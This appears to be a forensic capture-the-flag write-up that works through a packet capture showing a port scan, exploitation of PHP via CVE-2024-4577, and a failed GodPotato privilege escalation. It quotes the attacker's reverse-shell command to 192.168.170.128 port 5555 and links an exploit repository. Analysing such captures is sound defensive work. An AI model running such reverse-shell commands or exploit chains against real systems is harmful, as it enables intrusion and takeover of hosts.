




# Packet Puzzle


What is the source IP address of the attacker involved in this Attack?

> In the file, we notice suspicious activity: `192.168.170.128` is performing a scan on `192.168.170.130`. Hence the SYN -> RST + ACK packet response (indicating that the port is closed).


```
192.168.170.128
```

How many open ports did the attacker discover on the victim's system?

> To do this, we can apply a filter that only displays successful connections of the type: `SYN -> SYN+ACK`

```
8
```



What is the first open port that responded on the victim's system during reconnaissance?

```
22
```

What is the CVE identifier for the vulnerability exploited by the attacker?

> A search for the PHP version gives us this CVE : https://github.com/AlperenY-cs/CVE-2024-4577

```
CVE-2024-4577
```

What is the name and version of the vulnerable product exploited to get RCE?

```
PHP 8.1.25
```



What is the username of the victim account?

> To find this, you need to locate the moment when the hacker had true shell access to the system. because afterwards we only see connections being established. Now `Follow TCP Stream` from `12141` onwards will answer all the other questions.



```
cristo
```


At what timestamp did the attacker execute the command to gain their initial foothold on the victim system?

```
2025-01-22 09:47:32
```

What is the MITRE ATT&CK technique ID used by the attacker to gain an initial foothold?

```
T1190
```



What is the name of the malicious executable the attacker downloaded and executed in memory to facilitate privilege escalation on the endpoint?

```
GodPotato-NET4.exe
```

What is the command line used by the attacker while performing privilege escalation?

```
./TimeProvider.exe -cmd "time.exe 192.168.170.128 5555 -e cmd"
```

The attacker failed to escalate privileges and was given an error. What is the error?

```
Cannot create process Win32Error:2
```